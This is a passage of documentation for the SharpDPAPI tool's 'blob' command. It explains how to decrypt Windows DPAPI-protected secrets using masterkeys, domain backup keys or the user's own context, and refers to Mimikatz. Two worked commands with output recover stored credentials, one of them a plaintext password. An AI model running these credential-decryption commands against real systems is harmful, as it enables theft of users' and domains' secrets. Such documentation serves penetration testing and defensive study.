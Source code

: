 The **blob** command will describe/decrypt a DPAPI blob. A `/target:<BASE64|blob.bin>` *must* be supplied.

The command will a) decrypt the blob with any "{GUID}:SHA1" masterkeys passed, b) a `/mkfile:FILE` of one or more {GUID}:SHA1 masterkey mappings, c) use a supplied DPAPI domain backup key (`/pvk:BASE64...` or `/pvk:key.pvk`) to first decrypt any user masterkeys (a la **masterkeys**), or d) a `/password:X` to decrypt any user masterkeys, which are then used as a lookup decryption table. DPAPI GUID mappings can be recovered with Mimikatz' `sekurlsa::dpapi` command.

The `/unprotect` flag will use CryptUnprotectData() to decrypt the blob without masterkeys needed, *if* the command is run from the user context who saved the passwords. This can be done from an _unprivileged_ context, without the need to touch LSASS. For why this approach isn't used for credentials/vaults, see Benjamin's [documentation here](https://github.com/gentilkiwi/mimikatz/wiki/howto-~-credential-manager-saved-credentials#problem).

Decrypt a blob using CryptProtectData() (the `/unprotect` flag):

C:\Temp>SharpDPAPI.exe blob /target:C:\Temp\blob.bin /unprotect

      __                 _   _       _ ___
     (_  |_   _. ._ ._  | \ |_) /\  |_) |
     __) | | (_| |  |_) |_/ |  /--\ |  _|_
                    |
      v1.5.0


    [*] Action: Describe DPAPI blob

    [*] Using CryptUnprotectData() for decryption.

        guidMasterKey    : {0241bc33-44ae-404a-b05d-a35eea8cbc63}
        size             : 170
        flags            : 0x0
        algHash/algCrypt : 32772 (CALG_SHA) / 26115 (CALG_3DES)
        description      :
        dec(blob)        : Password123!


Using domain {GUID}:SHA1 masterkey mappings:

    C:\Temp>SharpDPAPI.exe blob /target:C:\Temp\blob2.bin {0241bc33-44ae-404a-b05d-a35eea8cbc63}:E7E481877B9D51C17E015EB3C1F72FB887363EE3

      __                 _   _       _ ___
     (_  |_   _. ._ ._  | \ |_) /\  |_) |
     __) | | (_| |  |_) |_/ |  /--\ |  _|_
                    |
      v1.5.0


    [*] Action: Describe DPAPI blob

    [*] Using CryptUnprotectData() for decryption.

        guidMasterKey    : {0241bc33-44ae-404a-b05d-a35eea8cbc63}
        size             : 314
        flags            : 0x0
        algHash/algCrypt : 32772 (CALG_SHA) / 26115 (CALG_3DES)
        description      :
        dec(blob)        : 01 00 00 00 3F 3F 3F 3F 01 15 3F 11 3F 7A 00 3F 4F 3F 3F ...

